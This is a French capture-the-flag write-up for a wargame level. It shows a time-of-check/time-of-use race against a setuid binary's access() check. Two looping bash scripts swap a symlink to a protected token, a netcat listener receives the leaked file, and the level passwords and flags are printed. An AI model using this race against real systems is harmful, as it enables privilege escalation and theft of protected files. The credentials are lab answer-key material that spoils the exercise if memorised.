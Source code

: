# Level10

> login:password -> *`level10:s5cAJpM8ev6XHw998pRWG728z`*
```
:~$ su level10
Password:s5cAJpM8ev6XHw998pRWG728z
```
---

```
:~$ pwd
/home/user/level10
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
...
```

Le Home contient un binaire et un fichier token :

```
:~$ ./level10
./level10 file host
  sends file to host if you have access to it

:~$ ./level10 token localhost
You don't have access to token

:~$ ./level10 .profile localhost
Connecting to localhost:6969 .. Unable to connect to host localhost

```

L'usage nous indique que le binaire envoi un fichier, mais uniquement si on possède les droits sur ce dernier.
En regardant du côté de la commande `strings level10` :

```
...
Connecting to %s:6969 ..
...
open
...
access
...
```

On remarque que le programme se connecte sur le port `:6969` et utilise `open` et `access`.\
Nous pouvons dés lors, profiter d'une faille d'access afin d'y récupérer le token (On profite du temps qu'il prends entre le check des droits et l'ouverture du fichier. man access).\
Pour ce faire nous allons utiliser 2 scripts qui utilise la technique du 'spam' :

- 1er script - Qui va essayer d'envoyer le fichier /tmp/link sur le localhost (ici `192.168.56.101`)
```
#!/bin/bash
while true;
do
	~/level10 /tmp/link 192.168.56.101
done
```

- 2e script - Qui va supprimer le fichier /tmp/link sur le localhost, le créer et y faire un lien symbolique avec le token présent sur le Home.
```
#!/bin/bash
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	ln -fs ~/token /tmp/link
done
```

Il ne nous reste plus qu'à écouter les transfert avec la commande netcat `nc -lk` (`l` pour écouter & `k` pour conserver la connexion) sur le port de connexion `:6969`, pour obtenir le token.

```
:~$ nc -lk 6969
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
^C

```

Il nous suffit maintenant de nous connecter sur l'user `flag10` avec le résultat obtenu puis de lancer un `getflag`

```
:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !

:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

Le flag nous permet de se connecter au level11
`level11:feulo4b72j7edeahuete3no7c`
